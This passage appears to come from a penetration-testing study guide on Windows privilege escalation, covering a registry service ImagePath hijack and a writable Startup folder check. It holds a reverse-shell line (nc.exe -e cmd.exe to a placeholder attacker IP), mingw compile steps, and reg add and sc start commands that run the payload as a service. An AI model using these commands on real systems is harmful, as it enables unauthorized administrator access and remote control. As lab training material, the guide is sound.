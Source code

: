 ### Another approach using windows_service.c file

1. Transfer the file from Windows to Kali. Use an FTP server to do that
-     python -m pyftpdlib -p 21 --write    (pip3 install pyftpdlib  #to download it) (run it on kali)
2. head to C:\Tools\Source and connect to the kali FTP server, anonymous login, then put the windows_service.c file
-     ftp 10.10.16.4 | username:anonymous | put windows_service.c
3. edit the windows_service file and replace the system("whoami > ..") with system("nc.exe -e cmd.exe <Attacker_IP> <PORT>").
4. compile the C file
-     w64-mingw32-gcc windows_service.c -o raman.exe     (sudo apt install gcc-mingw-w64)
5. move the compiled c file to Windows then run it using
-     reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc  /v ImagePath /t REG_EXPAND_SZ /d c:\temp\raman.exe /f
-     sc start regsvc 

# <span style="color:lightblue">Startup Applications</span>

## <span style="color:lightgreen">Methodology</span>

Startup apps run in the background, the number of apps running on the system can be significantly more than what the user is aware of and affect system responsiveness. Startup apps are classified to include those leveraging these mechanisms to start:
+ Run registry keys (HKLM, HKCU, wow64 nodes included)
+ RunOnce registry keys
+ Startup folders under the start menu for per user and public locations

So basically, we need full access to the Startup folder. Then by dropping our malicious executable file, we will gain administrator access.

## <span style="color:lightgreen">Detection</span>

### Windows VM

1. Open the command prompt and type the following to check the permission. Path is static: 
```console
C:\Temp> icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/12f85b86-6240-4ec0-add1-168afce6b7e7)

you also can use accesschk to check the permission

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/c6ed4ab5-2b46-47ab-8472-375e8387a561)


2. From the output notice that the `"BUILTIN\Users"` group has full access `'(F)'` to the directory.

## <span style="color:lightgreen">Exploitation</span>

